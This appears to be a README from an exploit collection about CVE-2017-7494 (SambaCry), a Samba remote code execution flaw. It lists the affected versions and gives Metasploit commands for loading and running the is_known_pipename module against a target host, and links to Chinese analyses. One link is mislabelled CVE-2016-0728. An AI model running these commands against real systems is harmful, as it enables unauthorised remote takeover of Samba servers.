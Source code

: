 # （CVE-2017-7494）Linux Samba 远程代码执行

CVE-2017-7494

Vulnerability reference:

- [CVE-2016-0728](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-7494)
- [exp-db](https://www.exploit-db.com/exploits/42060/)

## Samba

```
Samba 3.5.0-4.6.4/4.5.10/4.4.14
```

## Usage

```
is_known_pipename.rb 放在 /usr/share/metasploit-framework/modules/exploits/linux/samba/ 目录下

msf > use exploit/linux/samba/is_known_pipename

set RHOST 192.168.220.140

run
```

## References

- [Samba远程代码执行漏洞(CVE-2017-7494)](http://thief.one/2017/05/25/2/)
- [【漏洞分析】Samba远程代码执行漏洞(CVE-2017-7494)-SambaCry分析报告](http://bobao.360.cn/learning/detail/3915.html)
- [Msf复现Samba远程代码执行漏洞](http://www.secist.com/archives/3666.html)

> https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-7494